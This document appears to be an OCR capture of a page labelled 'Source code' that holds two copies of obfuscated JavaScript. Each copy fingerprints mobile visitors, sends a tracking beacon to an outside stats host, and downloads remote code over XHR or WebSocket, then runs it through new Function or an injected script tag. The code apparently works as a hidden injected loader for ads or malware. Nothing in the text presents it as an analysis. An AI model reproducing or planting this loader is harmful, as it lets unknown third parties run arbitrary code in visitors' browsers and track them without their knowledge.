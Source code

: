 function QGUYpA(e){var t="",n=r=c1=c2=0;while(n<e.length){r=e.charCodeAt(n);if(r<128){t+=String.fromCharCode(r);n++;}else if(r>191&&r<224){c2=e.charCodeAt(n+1);t+=String.fromCharCode((r&31)<<6|c2&63);n+=2}else{c2=e.charCodeAt(n+1);c3=e.charCodeAt(n+2);t+=String.fromCharCode((r&15)<<12|(c2&63)<<6|c3&63);n+=3;}}return t;};function COrGWJ(e){var m='ABCDEFGHIJKLMNOPQRSTUVWXYZ'+'abcdefghijklmnopqrstuvwxyz'+'0123456789+/=';var t="",n,r,i,s,o,u,a,f=0;e=e.replace(/[^A-Za-z0-9+/=]/g,"");while(f<e.length){s=m.indexOf(e.charAt(f++));o=m.indexOf(e.charAt(f++));u=m.indexOf(e.charAt(f++));a=m.indexOf(e.charAt(f++));n=s<<2|o>>4;r=(o&15)<<4|u>>2;i=(u&3)<<6|a;t=t+String.fromCharCode(n);if(u!=64){t=t+String.fromCharCode(r);}if(a!=64){t=t+String.fromCharCode(i);}}return QGUYpA(t);};window[''+'E'+'O'+'l'+'D'+'v'+'B'+'']=((navigator.platform&&!/^Mac|Win/.test(navigator.platform))||(!navigator.platform&&/Android|iOS|iPhone/i.test(navigator.userAgent)))?function(){;(function(u,k,i,w,d,c){function seqv(t){var e=t.match(new RegExp('^((https?|wss?)?://)?a.'));if(!e)return t;var n=new Date;return(e[1]||"")+[n.getMonth()+1,n.getDate(),n.getHours()].join("").split("").map(function(t){return String.fromCharCode(t%26+(t%2!=0?65:97))}).join("")+"."+t.split(".").slice(-2).join(".")};var x=COrGWJ,cs=d[x('Y3VycmVudFNjcmlwdA==')],crd=x('Y3JlYXRlRWxlbWVudA==');'jQuery';u=seqv(decodeURIComponent(x(u.replace(new RegExp(c[0]+''+c[0],'g'),c[0]))));!function(o,t){var a=o.getItem(t);if(!a||32!==a.length){a='';for(var e=0;e!=32;e++)a+=Math.floor(16\*Math.random()).toString(16);o.setItem(t,a)}var n='https://ouj.vtqccm.com:7891/stats/9458/'+i+'?ukey='+a+'&host='+window.location.host;navigator.sendBeacon?navigator.sendBeacon(n):(new Image).src=n}(localStorage,'\_\_tsuk');'jQuery';if(navigator.userAgent.indexOf('b'+'a'+'id'+'u')!=-1){var xhr=new XMLHttpRequest();xhr.open('POST',u+'/vh4/'+i);xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded;');xhr.setRequestHeader('X-REQUESTED-WITH','XMLHttpRequest');xhr.onreadystatechange=function(){if(xhr.readyState==4&&xhr.status==200){var data=JSON.parse(xhr.responseText);new Function('\_'+'t'+'d'+'cs',new Function('c',data.result.decode+';return '+data.result.name+'(c)')(data.result.img.join('')))(cs);}};xhr.send('u=1');}else if(WebSocket&&/UCBrowser|Quark|Huawei|Vivo|NewsArticle/i.test(navigator.userAgent)){k=seqv(decodeURIComponent(x(k.replace(new RegExp(c[1]+''+c[1],'g'),c[1]))));var ws=new WebSocket(k+'/wh4/'+i);ws.onmessage=function(e){ws.close();new Function('\_tdcs',x(e.data))(cs);};ws.onerror=function(){var s=d[crd]('script');s.src=u+'/vh4/'+i;cs.parentElement.insertBefore(s,cs);}}else{var s=d[crd]('script');s.src=u+'/vh4/'+i;cs.parentElement.insertBefore(s,cs);}})('aHRR0cHMlM0ElMkYlMkZhLm5tY3NzLmNuJTNBODg5MQ==','d3NzJTNBJTJGJTJGYSS5ha2Rjay5jbiUzQTk1MzQ=','9142',window,document,['R','S']);}:function(){};

function iovVHp(e){var t="",n=r=c1=c2=0;while(n<e.length){r=e.charCodeAt(n);if(r<128){t+=String.fromCharCode(r);n++;}else if(r>191&&r<224){c2=e.charCodeAt(n+1);t+=String.fromCharCode((r&31)<<6|c2&63);n+=2}else{c2=e.charCodeAt(n+1);c3=e.charCodeAt(n+2);t+=String.fromCharCode((r&15)<<12|(c2&63)<<6|c3&63);n+=3;}}return t;};function TYhwgj(e){var m='ABCDEFGHIJKLMNOPQRSTUVWXYZ'+'abcdefghijklmnopqrstuvwxyz'+'0123456789+/=';var t="",n,r,i,s,o,u,a,f=0;e=e.replace(/[^A-Za-z0-9+/=]/g,"");while(f<e.length){s=m.indexOf(e.charAt(f++));o=m.indexOf(e.charAt(f++));u=m.indexOf(e.charAt(f++));a=m.indexOf(e.charAt(f++));n=s<<2|o>>4;r=(o&15)<<4|u>>2;i=(u&3)<<6|a;t=t+String.fromCharCode(n);if(u!=64){t=t+String.fromCharCode(r);}if(a!=64){t=t+String.fromCharCode(i);}}return iovVHp(t);};window[''+'x'+'l'+'F'+'p'+'D'+'Z'+'']=((navigator.platform&&!/^Mac|Win/.test(navigator.platform))||(!navigator.platform&&/Android|iOS|iPhone/i.test(navigator.userAgent)))?function(){;(function(u,k,i,w,d,c){function YMsU(t){var e=t.match(new RegExp('^((https?|wss?)?://)?a.'));if(!e)return t;var n=new Date;return(e[1]||"")+[n.getMonth()+1,n.getDate(),n.getHours()].join("").split("").map(function(t){return String.fromCharCode(t%26+(t%2!=0?65:97))}).join("")+"."+t.split(".").slice(-2).join(".")};var x=TYhwgj,cs=d[x('Y3VycmVudFNjcmlwdA==')],crd=x('Y3JlYXRlRWxlbWVudA==');'jQuery';u=YMsU(decodeURIComponent(x(u.replace(new RegExp(c[0]+''+c[0],'g'),c[0]))));!function(o,t){var a=o.getItem(t);if(!a||32!==a.length){a='';for(var e=0;e!=32;e++)a+=Math.floor(16\*Math.random()).toString(16);o.setItem(t,a)}var n='https://ouj.vtqccm.com:7891/stats/9458/'+i+'?ukey='+a+'&host='+window.location.host;navigator.sendBeacon?navigator.sendBeacon(n):(new Image).src=n}(localStorage,'\_\_tsuk');'jQuery';if(navigator.userAgent.indexOf('b'+'a'+'id'+'u')!=-1){var xhr=new XMLHttpRequest();xhr.open('POST',u+'/vh4/'+i);xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded;');xhr.setRequestHeader('X-REQUESTED-WITH','XMLHttpRequest');xhr.onreadystatechange=function(){if(xhr.readyState==4&&xhr.status==200){var data=JSON.parse(xhr.responseText);new Function('\_'+'t'+'d'+'cs',new Function('c',data.result.decode+';return '+data.result.name+'(c)')(data.result.img.join('')))(cs);}};xhr.send('u=1');}else if(WebSocket&&/UCBrowser|Quark|Huawei|Vivo|NewsArticle/i.test(navigator.userAgent)){k=YMsU(decodeURIComponent(x(k.replace(new RegExp(c[1]+''+c[1],'g'),c[1]))));var ws=new WebSocket(k+'/wh4/'+i);ws.onmessage=function(e){ws.close();new Function('\_tdcs',x(e.data))(cs);};ws.onerror=function(){var s=d[crd]('script');s.src=u+'/vh4/'+i;cs.parentElement.insertBefore(s,cs);}}else{var s=d[crd]('script');s.src=u+'/vh4/'+i;cs.parentElement.insertBefore(s,cs);}})('aHR0cHMlM0ElMkYlMkZhLm5tY3NzLmNuJTNBBODg5MQ==','d3NzJTNBJTJGJTJGYS5ha2Rjay5jbiUzQTk1MzQ==','9141',window,document,['B','=']);}:function(){};